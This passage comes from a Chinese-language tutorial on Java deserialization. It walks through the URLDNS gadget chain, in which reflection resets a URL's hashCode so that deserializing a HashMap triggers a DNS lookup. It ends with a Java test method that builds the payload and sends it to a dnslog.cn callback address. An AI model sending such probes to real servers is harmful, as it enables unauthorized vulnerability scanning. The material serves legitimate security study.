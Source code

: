 4. `getHostAddress()`，一路跟下去，发现它会根据域名获取 IP 地址，此时必定会向指定的 URL 发送 DNS 请求。

### 5.4 整合并构造链

1. `HashMap<>` 中放 `URL`。

2. 想要反序列化时触发 `URL.hashCode()`，必须要求其属性 `hashCode` 为 -1。

3. 需要注意的一点是，调用 `HashMap.put()` 时，其会调用一次 `hashCode()`：
    ![image-20230411220024721](Serialization-Java/image-20230411220024721.png)
    **如果在其插入之前没有通过反射把属性 `hashCode` 重置为非 -1 的话（默认刚创建时为 -1)**，那么其会在 `put()` 插入时发起 DNS 请求。

4. 在序列化时还得将其改成 -1。否则反序列化时，由于其 `hashCode` 不是 -1，从而不会发起 DNS 请求，这和实际要求截然相反。

5. 结合上述四点，构造 payload。

    ```java
    @Test
    public void testDNSLog() throws MalformedURLException, NoSuchFieldException, IllegalAccessExcept
        HashMap<URL, Integer> hashMap = new HashMap<URL, Integer>();
        // 1. 创建 URL，其访问地址为 burp 生成的用于检测 DNSLog 的，当然 dnslog 也行
        URL url = new URL("http://apcv57.dnslog.cn/");
    
        // 2. 在 put 前通过反射将键为 url 的 hashCode 改成非 -1
        Class<? extends URL> urlClass = url.getClass();
        // 获取对象内的属性
        Field hashCode = urlClass.getDeclaredField("hashCode");
        // 忽略其安全限制（无效化 private、protected 关键字）
        hashCode.setAccessible(true);
        // put 前改为非 -1，为了防止下面 put 时发出一次 DNS 请求从而干扰结果
        hashCode.setInt(url, 1);
    
        // 3. 塞进去
        hashMap.put(url, 10);
        // 4. 序列化前改回 -1
        hashCode.setInt(url, -1);
        // 5. 序列化
        String serialize = serialize(hashMap);
        unSerialize(serialize);
    }
    ```
